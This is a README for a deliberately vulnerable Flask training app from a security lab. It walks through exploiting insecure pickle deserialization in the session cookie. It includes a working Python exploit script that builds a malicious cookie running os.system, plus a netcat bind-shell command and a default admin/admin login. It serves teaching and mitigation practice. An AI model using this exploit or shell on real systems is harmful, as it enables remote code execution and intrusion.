 # Amarelo Designs

<p align="center">
    <img src="images/Amarelo-Designs.png"/>
</p>

This is a simple web application built with Flask that contains an example of an Insecure Deserialization vulnerability and, its main goal is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from b3d3cLabs, to obtain blind remote code execution.

## Index

- [Definition](#what-is-insecure-deserialization)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Insecure Deserialization?

Serialization is the process of translating data structures or object state, into a format that can be stored or transmitted and reconstructed later. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.

The main goal of this app is to discuss how **Insecure Deserialization** vulnerabilities can be exploited and to encourage developers to send b3d3cLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [b3d3cLabs](https://github.com/b3d3c/b3d3cLabs), you must type the following commands to start:

```sh
cd b3d3cLabs/owasp-top10-2017/a8/amarelo-designs
```

```sh
make install
```

Then simply visit [localhost:10008][App] ! 😆

## Get to know the app 🎨

To properly understand how this application works, you can follow these simple steps:

- Visit the homepage!
- Have a look at the portfolio

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of an insecure deserialization function allows for remote code execution

It's possible to reach the server's web application from the HTTP port 10008, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages and a common directories [wordlist], we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:10008 ./../../../docs/common.txt
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image:

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥
 
A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields, gives us acess to an Admin Dashboard, as shown below:

<img src="images/attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="images/attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="images/attack6.png" align="center"/>

The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:


<img src="images/attack7.png" align="center"/>

If an attacker knew that the app uses `Pickle` as the serialization method, he/she could create a malicious cookie to take advantage of it and execute code remotely. An example of an exploit (serializaPickle.py) in Python 3 that could produce this cookie could be:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

To be certain that the app is exploitable, we will send a sleep command to make the app unresponsive for 10 seconds. If the app takes 10 seconds to return our request, then it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:10008/user
```

<img src="images/attack9.png" align="center"/>

To show how an attacker could have access to the server through an RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:10008/user
```

<img src="images/attack10.png" align="center"/>

The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="images/attack11.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute code remotely through a serialization vulnerability

## References

* Docker Install:  https://docs.docker.com/install/
* Docker Compose Install: https://docs.docker.com/compose/install/
* App: http://localhost:10008
* Dirb: https://tools.kali.org/web-applications/dirb
* Burp Suite: https://en.wikipedia.org/wiki/Burp_suite
* Pickle: https://docs.python.org/2/library/pickle.html
* netcat: https://en.wikipedia.org/wiki/Netcat
* wordlist: [common.txt](common.txt)
